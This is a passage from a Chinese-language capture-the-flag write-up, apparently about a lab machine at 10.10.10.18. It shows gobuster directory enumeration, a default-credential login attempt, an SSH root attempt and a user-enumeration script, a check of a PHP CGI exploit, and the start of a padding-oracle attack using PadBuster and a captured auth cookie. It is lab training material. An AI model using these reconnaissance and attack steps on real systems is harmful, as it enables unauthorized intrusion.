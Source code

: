 #### gobuster
```
gobuster -u http://10.10.10.18 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

http://10.10.10.18/classes/
```
发现目录遍历，该目录下有几个php文件。auth.php跳转到admin/login.php

用burp拦截，发现302跳转，404not found =》admin/login.php

这让我不禁想到，login.php是否可以登陆admin

admin/admin尝试登陆，提示Invalid credentials，爆破失败

## ssh
- 检查openssh是否有低版本漏洞
```
ssh root@10.10.10.18

The authenticity of host '10.10.10.18 (10.10.10.18)' can't be established.
ECDSA key fingerprint is SHA256:OJ5DTyZUGZXEpX4BKFNTApa88gR/+w5vcNathKIPcWE.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.18' (ECDSA) to the list of known hosts.
root@10.10.10.18: Permission denied (publickey).

python ssh.py --userList /usr/share/wordlists/linux-user.txt 10.10.10.18 --outputFile /root/Desktop/users.txt
```
检查结果：公钥私钥登陆方式，好像不允许私钥登陆

- 检查中间件漏洞
Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution + Scanner                                           | exploits/php/remote/29316.py

cgi-bin目录不存在，所以漏洞不存在

## writeup
参考资料： [Padding Oracle Attack 笔记](https://www.secpulse.com/archives/3537.html)

Padding Oracle Attack，简要的说就是密码学配置不当，会导致任意文件读取。

工具：wget https://raw.githubusercontent.com/GDSSecurity/PadBuster/master/padBuster.pl

使用burp抓包，获取Cookie。

#### 数据包

```
GET / HTTP/1.1

Host: 10.10.10.18

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Cookie: PHPSESSID=l8g93fl443iinu6cndl71g1ic5; auth=zZs1CucXwORHrUD2uEkfi7HKtO4MqN0e

Connection: close

Upgrade-Insecure-Requests: 1

Cache-Control: max-age=0
```
